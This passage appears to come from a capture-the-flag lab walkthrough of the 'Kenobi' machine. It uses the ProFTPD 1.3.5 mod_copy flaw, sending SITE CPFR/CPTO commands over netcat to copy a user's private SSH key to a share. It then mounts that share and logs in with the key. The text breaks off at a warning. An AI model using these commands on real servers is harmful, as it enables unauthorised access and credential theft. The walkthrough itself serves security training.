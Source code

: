 According the initial nmap scan, we found the running proftp service running on port 21. The service version is `1.3.5`. We can use **searchsploit** to find known vulnerabilities for that version:

```console
searchsploit proftpd 1.3.5 
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                        | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                                  | linux/remote/36742.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Read more about the `mod_copy` module [HERE](http://www.proftpd.org/docs/contrib/mod_copy.html). To summarize, we can use this module to **copy files from one location to another**.
One key file in Linux systems is the private SSH key. In this case it belongs to kenobi user.
We'll use [netcat](https://en.wikipedia.org/wiki/Netcat) (`nc`) to connect to the FTP port and use `SITE CPFR` (copy from) and `SITE CPTO` (copy to) commands to copy the key file:

```console
nc kenobi
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [kenobi]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

We now have a copy of the private key (**id_rsa** file) in a location we can access - `/var`(see section about SMB/SAMBA). Let's mount that directory to our machine in order to access it (please double check if `sudo` is required on your environment):
1.  Create a mount directory on our machine - `sudo mkdir /mnt/kenobi`
2.  Mount the remote directory to our machine - `sudo mount kenobi:/var /mnt/kenobi`
3.  List available files to verify `ls -la /mnt/kenobi/tmp`
4.  For ease of use I prefer to copy that file into my working directory/project directory - `cp /mnt/kenobi/tmp/id_rsa`. You may choose another location.
5.  Unmount the directory - `sudo umount /mnt/kenobi`


## SSH
Now we can use that private key to login as the **Kenobi** user using SSH - `ssh kenobi@kenobi -i id_rsa` where `-i` flag is used to specify the private key location.

We get the following warning:

